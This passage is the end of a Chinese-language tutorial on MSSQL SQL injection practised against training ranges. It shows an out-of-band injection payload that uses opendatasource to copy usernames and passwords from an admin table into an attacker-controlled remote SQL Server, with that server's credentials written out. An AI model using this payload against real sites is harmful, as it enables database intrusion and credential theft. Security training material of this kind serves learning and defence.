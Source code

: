## 4、获取数据

1、首先新建一个表，里面放三个字段，分别是id，username和passwd。

```php
CREATE TABLE data(id INT,username VARCHAR(255),passwd VARCHAR(255))
```

2、获取admin表中的数据

```php
?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.data select id,username,passwd from  admin -- qwe
```

![](https://p0.ssl.qhimg.com/t01b7ef0a0f00234293.png)
![](https://p4.ssl.qhimg.com/t01ce04ab44180c2881.png)

# 0x08 总结

	完成这篇文章共费时1周，主要花时间在环境搭建以及寻找在线靶场。全文从显错注入、报错注入到盲注和反弹注入，几乎涵盖了所有MSSQL注入类型，若有所遗漏还请联系我，我必将在原文基础上进行改进。因为能力有限，本文未进行太多了原理描述，也因为SQL注入原理市面上已经有很多文章进行了讲解，所以文章最终以实战注入作为重心开展，讲述找寻到注入点后在如何在多种情况下获取数据。
	
	靶场采用墨者学院、掌控安全，以及MSSQL-sqli-labs靶场，实际攻击时还需要考虑waf绕过等，后续会计划完成一篇针对waf绕过和提权getshell的文章，敬请期待～
